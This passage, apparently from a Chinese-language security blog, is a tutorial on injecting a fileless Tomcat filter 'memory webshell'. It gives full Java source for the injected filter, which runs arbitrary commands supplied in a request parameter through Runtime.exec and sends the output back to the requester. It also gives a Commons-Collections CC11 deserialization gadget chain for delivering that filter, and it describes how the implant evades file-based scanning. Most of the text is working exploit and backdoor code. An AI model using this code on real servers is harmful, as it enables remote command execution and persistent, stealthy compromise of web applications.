                     * 2. 可以调用doFilter来添加myFilter
                     * 3. 也可以使用反射来添加
                     * */
                    Filter myFilter = new TomcatInject();
                    FilterRegistration.Dynamic filterRegistration = servletContext.addFilter(filterName, myFilter);
                    //接下来的操作是设置filtermapping
                    filterRegistration.setInitParameter("encoding", "utf-8");
                    //是否支持异步处理，默认为false
                    filterRegistration.setAsyncSupported(false);
                    filterRegistration.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST),false, new String[]{filterUrlPattern});
                    //修改生命周期的状态为：已经启动
                    if (stateField != null){
                        stateField.set(standardContext, LifecycleState.STARTED);
                    }
                    //调用
                    if (standardContext != null){
                        //使用filterStart来启动创建的filter
                        Method filterStartMethod = StandardContext.class.getDeclaredMethod("filterStart");
                        filterStartMethod.setAccessible(true);
                        filterStartMethod.invoke(standardContext, null);
                        Class _filter = null;
                        try {
                            _filter = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                        }catch (Throwable t){}
                        //可能是apache版本的问题，这里的deploy下没有FilterMap类，所以暂时注释掉
//                        if (_filter == null){
//                            try {
//                                _filter = Class.forName("org.apache.catalina.deploy.FilterMap")
//                            }
//                        }
                        //获取filterMaps，并将自定义的filtermap插在第一个位置
                        Method findFilterMapsMethod = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredMethod("findFilterMaps");
                        Object[] filterMaps = (Object[]) findFilterMapsMethod.invoke(standardContext);
                        Object[] tmpFilterMaps = new Object[filterMaps.length];
                        int index = 1;
                        for (int i = 0; i < filterMaps.length; i++){
                            Object o = filterMaps[i];
                            findFilterMapsMethod = _filter.getMethod("getFilterName");
                            String name = (String) findFilterMapsMethod.invoke(o);
                            //判断是不是我创建的Filter，根据name来判断，忽略大小写
                            if (name.equalsIgnoreCase(filterName)){
                                //如果是，则将其赋值给tmpFilterMaps的第一个也就是第0位
                                tmpFilterMaps[0] = o;
                            }else {
                                //如果不是，继续在filterMaps中找
                                tmpFilterMaps[index++] = filterMaps[i];
                            }
                        }
                        for (int i = 0; i < filterMaps.length; i++){
                            //相当于将tmpFilterMaps复制了一下，或者是说改了个数组名而已
                            filterMaps[i] = tmpFilterMaps[i];
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```

逻辑这边，我在注释中写的比较详细

这里就说一下那个apache版本的原因找不到FilterMap类的问题，我用的是tomcat8.5版本的，在这个包下是没有发现FilterMap类的。



于是就将它给注释掉了。

#### 执行命令部分

在此之前，需要实现Filter接口，并重写Filter生命周期中的初始化方法、过滤方法以及销毁方法

```java
@Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        /*
        * 执行命令的部分
        * */
        System.out.println("-----------------------------------------TomcatFilterShell Inject---------------------------------------------------");
        String cmd;
        String line;
        if ((cmd = request.getParameter(cmdParamName)) != null){
            Process process = Runtime.getRuntime().exec(cmd);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            while ((line = bufferedReader.readLine()) != null){
                stringBuilder.append(line+"\n");
            }
            response.getOutputStream().write(stringBuilder.toString().getBytes(StandardCharsets.UTF_8));
            response.getOutputStream().flush();
            response.getOutputStream().close();
            return;
        }
        chain.doFilter(request, response);

    }

    @Override
    public void destroy() {
    }
```

执行命令部分也就是最简单的一句话木马形式，不理解`Process`和`Runtime`结合进行Java与非Java程序之间的交互可以看下https://blog.csdn.net/m0_37556444/article/details/85622179

简单说下

`Process`通过`getInputStream`方法获取子进程的输入流，最后由`response`调用`getOutputStream`方法结合`write`方法，将结果输出。

完整的POC流程

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.LifecycleState;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.util.LifecycleBase;

import javax.servlet.*;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.charset.StandardCharsets;
import java.util.EnumSet;

public class TomcatInject extends AbstractTranslet implements Filter{
    private final String cmdParamName = "m0re";
    private final static String filterUrlPattern = "/*";
    private final static String filterName = "tomcat";

    //获取ServletContext
    private static ServletContext getServletContext() throws Exception {
        ServletRequest servletRequest = null;
        //拿到request 和 response
        Class applicationFilterChain = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        Field lastServicedRequestField = applicationFilterChain.getDeclaredField("lastServicedRequest");
        lastServicedRequestField.setAccessible(true);
        //get(null)，非null的话，使用get方法就可以直接获取url传输过来的值了
        ThreadLocal threadLocal = (ThreadLocal) lastServicedRequestField.get(null);
        //增加一个判断逻辑，不为空意味着第一次反序列化的准备工作成功
        if (threadLocal != null && threadLocal.get() != null){
            //获取 servletRequest，对比上一个get(null)就可以看到区别
            servletRequest = (ServletRequest) threadLocal.get();
        }
        /*
        * 如果不是通过Request去传输的，我理解的是不通过get或post吧
        * 那么就通过以下两种方式去获取 servletRequest
        * */
        //第一种
        if (servletRequest == null){
            try {
                Class requestContextHolder = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method getRequestAttributesMethod = requestContextHolder.getMethod("getRequestAttributes");
                Object o = getRequestAttributesMethod.invoke(null);
                Class<?> name = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                Method nameMethod = name.getMethod("getRequest");
                servletRequest = (ServletRequest) nameMethod.invoke(o);
            }catch (Throwable t){}
        }
        if (servletRequest != null){
            return servletRequest.getServletContext();
        }
        //第二种
        try {
            Class contextLoader = Class.forName("org.springframework.web.context.ContextLoader");
            Method getCurrentWebApplicationContext = contextLoader.getMethod("getCurrentWebApplicationContext");
            Object o = getCurrentWebApplicationContext.invoke(null);
            Class<?> name = Class.forName("org.springframework.web.context.WebApplicationContext");
            Method nameMethod = name.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) nameMethod.invoke(o);
            return servletContext;

        }catch (Throwable t){}
        return null;
    }
    //静态代码块
    static {
        try{
            //调用静态方法getServletContext
            ServletContext servletContext = getServletContext();
            if (servletContext != null){
                Field context = servletContext.getClass().getDeclaredField("context");
                context.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);

                Field stdcontext = applicationContext.getClass().getDeclaredField("context");
                stdcontext.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdcontext.get(applicationContext);

                if (standardContext != null){

                    Field stateField = LifecycleBase.class.getDeclaredField("state");
                    stateField.setAccessible(true);
                    //给standardContext设置一个状态
                    stateField.set(standardContext, LifecycleState.STARTING_PREP);
                    /*
                     * 1. 实现Filter接口
                     * 2. 可以调用doFilter来添加myFilter
                     * 3. 也可以使用反射来添加
                     * */
                    Filter myFilter = new TomcatInject();
                    FilterRegistration.Dynamic filterRegistration = servletContext.addFilter(filterName, myFilter);
                    //接下来的操作是设置filtermapping
                    filterRegistration.setInitParameter("encoding", "utf-8");
                    //是否支持异步处理，默认为false
                    filterRegistration.setAsyncSupported(false);
                    filterRegistration.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST),false, new String[]{filterUrlPattern});
                    //修改生命周期的状态为：已经启动
                    if (stateField != null){
                        stateField.set(standardContext, LifecycleState.STARTED);
                    }
                    //调用
                    if (standardContext != null){
                        //使用filterStart来启动创建的filter
                        Method filterStartMethod = StandardContext.class.getDeclaredMethod("filterStart");
                        filterStartMethod.setAccessible(true);
                        filterStartMethod.invoke(standardContext, null);
                        Class _filter = null;
                        try {
                            _filter = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                        }catch (Throwable t){}
                        //可能是apache版本的问题，这里的deploy下没有FilterMap类，所以暂时注释掉
//                        if (_filter == null){
//                            try {
//                                _filter = Class.forName("org.apache.catalina.deploy.FilterMap")
//                            }
//                        }
                        //获取filterMaps，并将自定义的filtermap插在第一个位置
                        Method findFilterMapsMethod = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredMethod("findFilterMaps");
                        Object[] filterMaps = (Object[]) findFilterMapsMethod.invoke(standardContext);
                        Object[] tmpFilterMaps = new Object[filterMaps.length];
                        int index = 1;
                        for (int i = 0; i < filterMaps.length; i++){
                            Object o = filterMaps[i];
                            findFilterMapsMethod = _filter.getMethod("getFilterName");
                            String name = (String) findFilterMapsMethod.invoke(o);
                            //判断是不是我创建的Filter，根据name来判断，忽略大小写
                            if (name.equalsIgnoreCase(filterName)){
                                //如果是，则将其赋值给tmpFilterMaps的第一个也就是第0位
                                tmpFilterMaps[0] = o;
                            }else {
                                //如果不是，继续在filterMaps中找
                                tmpFilterMaps[index++] = filterMaps[i];
                            }
                        }
                        for (int i = 0; i < filterMaps.length; i++){
                            //相当于将tmpFilterMaps复制了一下，或者是说改了个数组名而已
                            filterMaps[i] = tmpFilterMaps[i];
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        /*
        * 执行命令的部分
        * */
        System.out.println("-----------------------------------------TomcatFilterShell Inject---------------------------------------------------");
        String cmd;
        String line;
        if ((cmd = request.getParameter(cmdParamName)) != null){
            Process process = Runtime.getRuntime().exec(cmd);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            while ((line = bufferedReader.readLine()) != null){
                stringBuilder.append(line+"\n");
            }
            response.getOutputStream().write(stringBuilder.toString().getBytes(StandardCharsets.UTF_8));
            response.getOutputStream().flush();
            response.getOutputStream().close();
            return;
        }
        chain.doFilter(request, response);

    }

    @Override
    public void destroy() {
    }
}
```

#### 利用CC11进行注入

利用代码来源：天下大木头

```java
package com.sf.filterjsp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;

@SuppressWarnings("all")
public class CC11Tool {

    public static void main(String[] args) throws Exception {
        byte[] bytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{bytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();

        Field f0 = templates.getClass().getDeclaredField("_bytecodes");
        f0.setAccessible(true);
        f0.set(templates,targetByteCodes);

        f0 = templates.getClass().getDeclaredField("_name");
        f0.setAccessible(true);
        f0.set(templates,"name");

        f0 = templates.getClass().getDeclaredField("_class");
        f0.setAccessible(true);
        f0.set(templates,null);

        // 利用反射调用 templates 中的 newTransformer 方法
        InvokerTransformer transformer = new InvokerTransformer("asdfasdfasdf", new Class[0], new Object[0]);
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,transformer);
        TiedMapEntry tiedmap = new TiedMapEntry(map,templates);
        HashSet hashset = new HashSet(1);
        hashset.add("foo");
        // 我们要设置 HashSet 的 map 为我们的 HashMap
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        Object[] array = (Object[])f2.get(hashset_map);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedmap);

        // 在 invoke 之后，
        Field f3 = transformer.getClass().getDeclaredField("iMethodName");
        f3.setAccessible(true);
        f3.set(transformer,"newTransformer");

        try{
//            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("First.ser"));
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("Second.ser"));
            outputStream.writeObject(hashset);
            outputStream.close();

        }catch(Exception e){
            e.printStackTrace();
        }
    }


    public static byte[] getBytes() throws IOException {
        //	第一次
//        InputStream inputStream = new FileInputStream(new File("D://Test//TomcatFilterInjectFirst.class"));
        //  第二次
        InputStream inputStream = new FileInputStream(new File("D://Test//TomcatInject.class"));

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;
    }
}
```

当然如果使用其他的也是可以的，比如我之前利用的CC11去改造，跟这个差不多的，只是在CC11的链子编写过程不一样而已。

还有就是也可以对要加载的class文件转成字节数组，写在代码中，就像之前用的那样。

不过就不贴代码了，都是代码看着烦。

#### 测试注入效果

如果不想使用postman，那就利用一下传参直接传payload的，然后对字节码处理一下，比如进行base64编码一下了都可以的，当然在反序列化的时候也要先解码。这里因为解决环境问题，有些烦了，不想写了。

这是第一步，也就是上面过程中存入request和response的部分。



然后第二步开始动态注册filter进行注入了。



最后检验效果



注入成功。

### 对比

这个利用方式的目的就是，实现无文件落地注入filter内存马，现在看查杀表



再次查找，在C盘也是找不到文件的。D盘这些是我手动更改的。

